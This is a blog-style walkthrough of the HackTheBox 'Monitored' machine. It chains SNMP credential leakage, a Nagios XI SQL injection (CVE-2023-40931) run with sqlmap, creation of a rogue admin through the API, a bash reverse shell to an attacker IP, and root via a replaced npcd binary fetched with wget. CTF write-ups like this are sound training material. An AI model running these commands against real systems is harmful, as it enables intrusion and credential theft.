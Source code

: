 ```yaml
---
title: "CTF Walkthrough: Monitored (HtB, Linux, Medium)"
excerpt: "A detailed walkthrough of \"Monitored\" machine on HackTheBox."
header:
  teaser: /docs/assets/images/teasers/ctf/monitored.png
  og_image: /docs/assets/images/teasers/ctf/monitored.png
author_profile: true
share: true
tags:
  - hack the box
  - linux
  - difficulty-medium
  - nagios xi
  - sqli
categories:
  - ctf
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Monitored" machine on HackTheBox platform that is based on Linux operating system and categorized as "Medium"
by difficulty. The machine has Nagios XI software running on it and involves utilizing a vulnerability chain (including SQL Injection) to establish a foothold on the system. Privilege escalation requires abusing sudo permissions on system scripts.

## Reconnaissance

The reconnaissance part is **extremely** important on this machine and unforgiving to mistakes.
The default **nmap** scan reveals the following services:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

The services of our interest here are http, https and ldap. Attempting to dump credentials from LDAP using anonymous login leads to no result:

```bash
nmap -n -sV --script "ldap*" <IP> -p 389
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/ldapdump.png" alt="">
  <figcaption></figcaption>
</figure>

Here comes the important part, missing which can cause the challenger to enter a rabbit hole. It's necessary to run a UDP scan as there's **SNMP** service running on port 161 UDP. From that service, it's possible to dump SNMP process list. One of the processes will contain **credentials** required to authenticate in Nagios.

The following nmap scan reveals the credentials:

```bash
nmap -sU -sC -sV -T4 <IP> #-sU - UDP Scan; -sC - run default scripts, -sV - enumerate service version, -T4 - scan speed
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/snmpcreds.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to https://monitored.htb. You will be presented with the following login page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagiosinitialpage.png" alt="">
  <figcaption></figcaption>
</figure>

It is not possible to login with the discovered credentials there, however, they can be used at Nagios system dashboard located at *https://monitored.htb/nagios/*. Navigate there and enter the credentials in the pop-up window. Successful authentication should present the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagioscorelogin.png" alt="">
  <figcaption></figcaption>
</figure>

### CVE-2023-40931

We have achieved authenticated access to Nagios. The time has come for an exhausting vulnerability research. Eventually, it will lead the challenger to this [article](https://outpost24.com/blog/nagios-xi-vulnerabilities/) on Outpost24. It reveals information about CVE-2023-40931 - "SQL Injection in Banner acknowledging endpoint". When a user acknowledges a banner, a POST request is sent to */nagiosxi/admin/banner_message-ajaxhelper.php* with the POST data consisting of the intended action and message ID – *action=acknowledge banner message&id=3*.

The ID parameter is assumed to be trusted but comes directly from the client without sanitization. This leads to a SQL Injection where an authenticated user with low or no privileges can retrieve sensitive data, such as from the *xi_session* and *xi_users* table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets. This vulnerability does not require the existence of a valid announcement banner ID, meaning it can be exploited by an attacker at any time.

## Weaponization / Exploitation

Firstly, it is necessary to request authentication token for our current user. According to this [thread](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum, it can be done by issuing the following command:

```bash
curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=<USERNAME>&password=<PASSWORD>&valid_min=500'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/authtoken.png" alt="">
  <figcaption></figcaption>
</figure>

Now that the tokes has been received, let's attempt to dump *xi_users* table with **sqlmap**:

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<YOUR TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users --dump
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/adminapi.png" alt="">
  <figcaption>sqlmap dump reveals admin API token</figcaption>
</figure>

*xi_users* table cotains Nagios Administrator account API token that can be used to query Nagios API to create a new user with administrative privileges as described on the following [page](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum. The command do to so is the following:

```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=<ADMIN API KEY>&pretty=1" -d "username=<DESIRED USERNAME>&password=<DESIRED PASSWORD>&name=adminlol&email=adminlol@localhost&auth_level=admin"
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/createnewadmin.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://nagios.monitored.htb/nagiosxi/* and login with your newly created account. After accepting license agreement and password change form, the challenger is presented with Nagios administrative dashboard.

## Foothold

Navigate to Configure => Core Config Manager => Commands => Add New

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/coreconfig.png" alt="">
  <figcaption></figcaption>
</figure>

Create a reverse shell command with the following parameters:
* Command type: check
* Check "Active" box
* Enter the reverse shell command in the "Command view" field and click save.
```bash
bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<YOUR PORT> 0>&1'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/shellcommand.png" alt="">
  <figcaption></figcaption>
</figure>


Start a Netcat reverse listener:

```bash
nc -lvnp <PORT SPECIFIED IN REVERSE SHELL COMMAND>
```

In Nagios, navigate to Monitoring => Hosts => localhost. In the Host Managment menu, select the created reverse shell command and click "Run Check Command" as shown on the screenshot:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/runshellcommand.png" alt="">
  <figcaption></figcaption>
</figure>

A reverse shell should be sent to Netcat listener, providing you with a foothold into the system.

### User flag

Find nagios user flag in its home directory.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/userflag.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Check what the current user is able to run with administrative privileges:

```bash
sudo -l
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/sudoloutput.png" alt="">
  <figcaption></figcaption>
</figure>

Among the scripts that appear there is **manage_services.sh**. Display its contents:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/scriptcontents.png" alt="">
  <figcaption></figcaption>
</figure>

It is evident that by executing **manage_services.sh** the user is able to control several services that include **npcd** service. Display the contents of **npcd** service to analyze it:

```bash
systemctl cat npcd
```
The service indicates location of its binary file available by the following path */usr/local/nagios/bin/npcd*. Check permissions on the file:
```bash
ls -l /usr/local/nagios/bin/npcd
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/catnpcdservice.png" alt="">
  <figcaption></figcaption>
</figure>

The current user has write permissions on the **npcd** binary. It is possible to replace contents of the file and execute it with system privileges. On your local machine, create a file called **npcd** with the following contents:

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP ADDR>/<PORT> 0>&1
```
Open a Netcat listener on the port of your choice. Then, start a Python HTTP server to host your npcd file. On the target system, download it, stop **npcd** service and replace the original **npcd** file located in **/usr/local/nagios/bin/** with the created one:

```bash
# On the Attacker machine:
nc -lnvp <PORT>
python3 -m http.server <PORT> # start HTTP server in the directory where npcd file is located

# On the target machine:
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd # Stop npcd service to be able to replace the binary
wget http://<IP ADDR>:<PORT>/npcd # Download npcd file from HTTP server
mv npcd /usr/local/nagios/bin/  # Move the downloaded file into target directory, replacing the original file
chmod +x /usr/local/nagios/bin/npcd # Assign executable permissions to the file
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd # Start npcd service to receive root shell
```
### Root flag

After transferring **npcd** file containing reverse shell command and replacing the original file with it, start **npcd** service again and, if instructions were completed correctly, the Attacker machine will receive a callback with root privileges. Navigate to */root* directory to get the root flag.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/root.png" alt="">
  <figcaption></figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}
